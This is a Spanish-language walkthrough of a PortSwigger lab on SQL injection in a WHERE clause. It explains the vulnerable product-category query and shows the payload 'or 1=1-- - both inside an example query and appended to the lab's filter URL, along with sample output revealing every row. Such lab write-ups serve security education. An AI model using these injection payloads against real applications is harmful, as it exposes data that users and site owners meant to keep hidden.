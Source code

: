 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:



### Query original

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: "Vida real", con un query adicional
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `or 1 = 1-- -'` o `or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:

````sql
# Ejemplo Final: "Vida real", con un query adicional
select id,username from users where subscription = '1' or 1 = 1;-- -' and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````






Por ejemplo en una base de datos el query se vería similar a esto: 

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/c4e14787-7ed5-4ce9-b060-427c3c66f574)

En la vida real se vería más similar a esto, en lugar de usar en `*`.
Ojo como solo arroja un resultado, ya que es justo lo que se especifica en el query, ni mas, ni menos

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/837008ac-50fd-452b-86ff-5e0881daed0d)

Debido a que el valor del nombre es donde yo puedo inyectar strings, es aquí donde debo poner el payload, en este caso quedaría:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/b0dfe131-415e-4d63-afea-1c43853733e0)

- OJO! en consola se deben poner los `;`

Es decir: Le estpy pidiendo en la query que regrese todos los nombres "txhaca" o todo donde 1=1, osea todo ;)

## Solución:

1. Abrir laboratorio

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a56c4773-50c8-41b7-82b7-94631079ad1c)

2. Si filtro puedo empezar a ver el query desde la URL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4349813d-9f17-4542-9695-ed2d23113a01)

3. Query que usé

````sql
'or 1=1-- -
````
````http
https://0adf002604af55028177ed87004400b4.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/22e3492e-a7c7-4573-a966-73830aa681fe)



